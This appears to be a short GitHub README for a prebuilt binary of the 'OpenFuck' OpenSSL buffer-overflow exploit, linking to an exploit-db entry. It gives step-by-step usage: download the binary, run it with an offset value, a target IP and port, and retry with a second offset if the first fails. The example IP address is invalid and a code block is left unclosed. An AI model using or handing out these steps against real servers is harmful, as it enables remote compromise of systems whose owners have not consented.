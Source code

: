 # OpenSSL-OpenFuck-Buff-overflow-binary
 Exploit - https://www.exploit-db.com/exploits/764

1. Download OpenFuck

2. ./OpenFuck 0x6a [Target Ip] [port] -c 40

for example:
```
./OpenFuck 0x6a 192.168.20.445 


if 0x6a did work try with 0x6b
# OpenSSL-OpenFuck-Buff-overflow-binary
